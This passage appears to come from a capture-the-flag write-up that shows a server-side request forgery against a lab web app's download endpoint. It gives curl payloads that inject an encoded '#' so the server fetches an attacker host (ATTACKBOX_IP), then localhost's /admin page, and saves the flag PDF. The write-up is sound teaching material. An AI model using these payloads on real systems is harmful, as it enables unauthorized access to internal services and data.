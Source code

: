 * Check the netcat output:

  ```
  GET /admin/public-docs-k057230990384293/75482342.pdf HTTP/1.1
  Host: ATTACKBOX_IP:8000
  User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
  Accept: */*
  ```

* So we need a way to remove `/public-docs-k057230990384293/75482342.pdf` from that request ...
* Maybe we can use the hash mark `#` hoping that everything after that will be interpreted as a [fragment identifier](https://en.wikipedia.org/wiki/URI_fragment) and not sent in the final request (as it is something processed on client side and not on server side)
* After a few tries, being `%23` the url encoded form of `#`, this request:

  ```shell
  curl 'http://MACHINE_IP:8087/download?server=ATTACKBOX_IP:8000/admin%23&id=75482342'
  ```

* Results in this netcat output:

  ```
  GET /admin HTTP/1.1
  Host: ATTACKBOX_IP:8000
  User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
  Accept: */*
  ```

* So now we can just do the same using `localhost`:

  ```shell
  curl -i 'http://MACHINE_IP:8087/download?server=localhost:8087/admin%23&id=75482342'

  HTTP/1.0 200 OK
  Content-Type: application/pdf
  Content-Length: 40958
  Content-Disposition: attachment
  Server: Werkzeug/0.16.0 Python/3.10.7
  Date: Mon, 04 Nov 2024 22:00:06 GMT

  Warning: Binary output can mess up your terminal. Use "--output -" to tell 
  Warning: curl to output it to your terminal anyway, or consider "--output 
  Warning: <FILE>" to save to a file.
  ```

* As it is a PDF file we can save it locally this way:

  ```shell
  curl 'http://MACHINE_IP:8087/download?server=localhost:8087/admin%23&id=75482342' -o FLAG.pdf
  ```
